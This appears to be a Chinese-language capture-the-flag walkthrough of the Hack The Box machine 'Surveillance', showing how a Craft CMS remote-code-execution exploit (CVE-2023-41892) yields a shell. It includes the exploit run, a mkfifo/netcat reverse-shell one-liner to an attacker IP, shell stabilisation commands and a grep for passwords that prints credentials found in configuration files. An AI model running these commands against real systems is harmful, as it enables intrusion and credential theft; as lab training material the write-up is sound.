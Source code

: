 3. http://surveillance.htb/admin/login 是一个登陆页面，从页面信息来看是craft cms。

   ![image-20231212103943864](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312121144859.png)

   简单测试一下sql注入，不可行。google搜寻发现一个RCE的[CVE-2023-41892](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce)



# 2.获取初始立足点

1. 执行CVE-2023-41892.py获取初始立足点

   ```
   ┌──(root㉿kali)-[/tmp]
   └─# python CVE-2023-41892.py http://surveillance.htb/
   [-] Get temporary folder and document root ...
   [-] Write payload to temporary file ...
   [-] Crash the php process and write temp file successfully
   [-] Trigger imagick to write shell ...
   [-] Done, enjoy the shell
   $ id
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   $ rm /tmp/Y;mkfifo /tmp/Y;cat /tmp/Y|/bin/sh -i 2>&1|nc 10.10.16.3 4444 >/tmp/Y
   
   ```



2. 稳固shell

   ```
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   export TERM=xterm
   Ctrl + Z 将 shell 置入后台。回到我们自己的终端，我们使用stty raw -echo; fg
   ```

   

3. 当前机器上还有其他两个用户，想办法切换到其中之一。

   ```
   www-data@surveillance:/home$ ls
   matthew  zoneminder
   ```



4. 在web目录下检索‘password’关键字，会得到下列的内容，但是这些密码或哈希无法切换到其他用户

   ```
   grep -ri 'password' /var/www/html 2>/dev/null
   
   /var/www/html/craft/.env:CRAFT_DB_PASSWORD=CraftCMSPassword2023!
   
   ./vendor/craftcms/cms/src/web/User.php:            Craft::$app->getSecurity()->validatePassword('p@ss1w0rd', '$2y$13$nj9aiBeb7RfEfYP3Cum6Revyu14QelGGxwcnFUKXIrQUitSodEPRi');
   
   ./vendor/craftcms/cms/src/test/TestSetup.php:            'password' => 'craftcms2018!!',
   ```
